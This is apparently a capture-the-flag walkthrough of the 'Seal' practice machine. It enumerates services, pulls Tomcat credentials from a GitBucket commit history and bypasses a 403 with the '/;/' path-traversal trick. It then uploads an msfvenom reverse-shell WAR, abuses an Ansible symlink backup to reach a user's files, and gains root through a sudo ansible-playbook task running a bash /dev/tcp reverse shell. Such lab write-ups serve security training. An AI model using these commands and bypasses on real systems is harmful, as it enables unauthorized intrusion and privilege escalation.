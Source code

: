 # Seal

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.190
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 06:12 EDT
Nmap scan report for 10.129.95.190
Host is up (0.0082s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
```

### Vegetables

Port 443 hosts a market page:

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

We can do a `gobuster` scan on the website to find what it is available:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u https://10.129.95.190/ -k -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.95.190/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/03 06:16:19 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> http://10.129.95.190/images/]
/admin                (Status: 302) [Size: 0] [--> http://10.129.95.190/admin/]
/icon                 (Status: 302) [Size: 0] [--> http://10.129.95.190/icon/]
/css                  (Status: 302) [Size: 0] [--> http://10.129.95.190/css/]
/js                   (Status: 302) [Size: 0] [--> http://10.129.95.190/js/]
/manager              (Status: 302) [Size: 0] [--> http://10.129.95.190/manager/]
```

There's a `/manager` and `/admin` directory. The former returns 403, while the latter returns an error from Tomcat:

<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

Interesting. Let's take a look at port 8080.

### GitBucket --> Tomcat Creds

Port 8080 is hosting a GitBucket instance:

<figure><img src="../../../.gitbook/assets/image (120) (3).png" alt=""><figcaption></figcaption></figure>

We can create a new account and sign in to see if there are any existing repositories. Straight away, we see tons of push requests to the Market repository.

<figure><img src="../../../.gitbook/assets/image (122) (4) (1).png" alt=""><figcaption></figcaption></figure>

From this, we can find the changes made to the repository. From one of them, we can view the password for the administrator panel by viewing changes made to `tomcat-users.xml`.&#x20;

<figure><img src="../../../.gitbook/assets/image (185) (3).png" alt=""><figcaption></figcaption></figure>

However, we still cannot access the portal.&#x20;

### Directory Traversal --> RCE

While reading Hakctricks for Tomcat vulnerabilities, I found this:

{% embed url="https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/" %}

So by using `/;/`, we might be able to bypass the 403 given earlier. This works for this machine.

<figure><img src="../../../.gitbook/assets/image (102) (2).png" alt=""><figcaption></figcaption></figure>

Using `tomcat:42MrHBf*z8{Z%`, we can access the Tomcat dashboard:

<figure><img src="../../../.gitbook/assets/image (154) (5).png" alt=""><figcaption></figcaption></figure>

Now we just need to generate a reverse shell with a `msfvenom`.&#x20;

```
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f war -o pwn.war      
Payload size: 13319 bytes
Final size of war file: 13319 bytes
Saved as: pwn.war
```

Then, we just need to upload this and run it. However, I did get blocked the first time when trying to upload. Reading more into the exploit, we can apparently append `/.;/` anywhere within the URL to bypass the check. After some trial and error, this URL worked:

{% code overflow="wrap" %}
```
https://10.129.95.190/manager/.;/html/upload?org.apache.catalina.filters.CSRF_NONCE=5F28315713273679760DD841AB5F1B53
```
{% endcode %}

Then, we can run our file and get a shell:

<figure><img src="../../../.gitbook/assets/image (156) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Luis

We couldn't access the user flag as `tomcat`. While looking around, I found some interesting files in `/opt`.&#x20;

```
tomcat@seal:/opt$ ls
backups
tomcat@seal:/opt$ cd backups/
tomcat@seal:/opt/backups$ ls
archives  playbook
```

Within the `/playbook` directory, there was a YAML playbook script for Ansible that seems to be running every minute or so:

```
tomcat@seal:/opt/backups/playbook$ ls
run.yml
tomcat@seal:/opt/backups/playbook$ cat run.yml 
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files
```

This takes is used for backing the web directory up, and for some reason the `copy_links` variable has been set to True, indicating that this playbook follows symlinks. As such, the exploit is to basically create a symlink between the user's home directory and one of the files being backed up.&#x20;

Afterwards, we can take the newest backup and open it to find the user's home directory has also been backed up.&#x20;

```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7  2021 .
drwxr-xr-x 3 root root  4096 May  6  2021 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

The `uploads` file is used because we have write access to it. Afterwards, we just need to open the backup made and head to the `uploads` file.&#x20;

```
tomcat@seal:/dev/shm$ tar zxf backup-2023-05-03-10\:42\:32.gz --force-local
tomcat@seal:/dev/shm$ ls
backup-2023-05-03-10:42:32.gz  dashboard  spare.gz
tomcat@seal:/dev/shm/dashboard/uploads$ ls -la
total 0
drwxr-x--- 3 tomcat tomcat  60 May  3 10:46 .
drwxr-x--- 7 tomcat tomcat 160 May  7  2021 ..
drwxr-x--- 9 tomcat tomcat 280 May  7  2021 luis
```

We can grab the user flag and also his SSH private key!

### To Root

Now that we are `luis`, we can check our `sudo` privileges:

```
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

So we can create our own playbook for a `root` reverse shell basically. I made one like this:

```
- hosts: localhost
  tasks:
  - name: shell
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'
```

Then, we can run the playbook and get a reverse shell as `root`.

```
$ nc -lvnp 4444
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.95.190] 49578
root@seal:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted!
